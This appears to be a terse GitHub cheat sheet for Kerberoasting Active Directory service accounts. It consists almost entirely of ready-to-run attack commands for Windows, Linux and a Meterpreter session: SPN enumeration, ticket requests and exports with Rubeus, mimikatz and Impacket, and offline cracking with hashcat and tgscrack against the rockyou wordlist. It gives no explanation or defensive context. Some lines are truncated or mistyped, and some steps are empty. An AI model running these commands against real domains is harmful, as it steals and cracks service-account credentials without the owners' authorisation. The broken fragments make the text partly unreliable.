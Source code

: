 # Kerberoast

1. Get Users with SPNs
GetUserSPNs.ps1

2. Get Service Tickets
Add-Type -AssemblyName System.Identit

3. Extract Tickets


4. Crack Ticket





setspn –a DC1/SVC_SQLService.ignite.local:60111 ignite\SVC_SQLService
MSSQLsvc/DC1@ignite.loal

Windows

setspn -T ignite -Q */*

./Rubeus.exe kerberoast /outfile:hashes.kerberoast

hashcat -m 13100 --force -a 0 hashes.kerberoast dict.txt

kerberos::list
kerberos::list /export


Linux

./GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika



Remote

load kiwi
kerberos_ticket_list
kiwi_cmd kerberos::list

kiwi_cmd kerberos::list /export


https://blog.cobalt.io/kerberoast-attack-techniques-79dd0166a65d


https://github.com/leechristensen/tgscrack


go run tgscrack.go -hashfile hash -wordlist /usr/share/wordlists/rockyou.txt


Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -FullData -Verbose
Import-Module .\Export-PotentiallyCrackableAccounts.ps1
Export-PotentiallyCrackableAccounts







